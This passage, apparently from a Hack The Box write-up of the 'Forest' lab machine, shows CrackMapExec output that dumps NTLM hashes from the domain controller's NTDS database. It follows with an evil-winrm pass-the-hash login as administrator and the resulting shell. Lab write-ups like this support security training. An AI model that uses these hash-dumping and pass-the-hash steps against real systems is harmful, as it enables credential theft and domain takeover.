SMB         10.129.160.157  445    FOREST           htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
SMB         10.129.160.157  445    FOREST           htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
SMB         10.129.160.157  445    FOREST           htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
SMB         10.129.160.157  445    FOREST           htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
SMB         10.129.160.157  445    FOREST           htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
SMB         10.129.160.157  445    FOREST           htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
SMB         10.129.160.157  445    FOREST           htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
SMB         10.129.160.157  445    FOREST           htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
SMB         10.129.160.157  445    FOREST           htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
SMB         10.129.160.157  445    FOREST           htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
SMB         10.129.160.157  445    FOREST           htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
SMB         10.129.160.157  445    FOREST           htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
SMB         10.129.160.157  445    FOREST           htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
SMB         10.129.160.157  445    FOREST           htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
SMB         10.129.160.157  445    FOREST           htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
SMB         10.129.160.157  445    FOREST           htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
SMB         10.129.160.157  445    FOREST           htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
SMB         10.129.160.157  445    FOREST           dae:10102:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
SMB         10.129.160.157  445    FOREST           FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:33088b711a5e3f62d19eb468b71509f6:::
SMB         10.129.160.157  445    FOREST           EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
SMB         10.129.160.157  445    FOREST           [+] Dumped 34 NTDS hashes to /home/htb-daeisbae/.cme/logs/FOREST_10.129.160.157_2023-11-18_143316.ntds of which 31 were added to the database
SMB         10.129.160.157  445    FOREST           [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.129.160.157  445    FOREST           [*] cat /home/htb-daeisbae/.cme/logs/FOREST_10.129.160.157_2023-11-18_143316.ntds | grep -iv disabled | cut -d ':' -f1
"
```

The leaked hashes can be used without decryption to login!

## Exploit - Accessing the Administator account

```powershell
evil-winrm -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6 -i 10.129.46.83

"
Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami /user

USER INFORMATION
----------------

User Name         SID
================= ============================================
htb\administrator S-1-5-21-3072663084-364016917-1341370565-500
*Evil-WinRM* PS C:\Users\Administrator\Documents>
"
```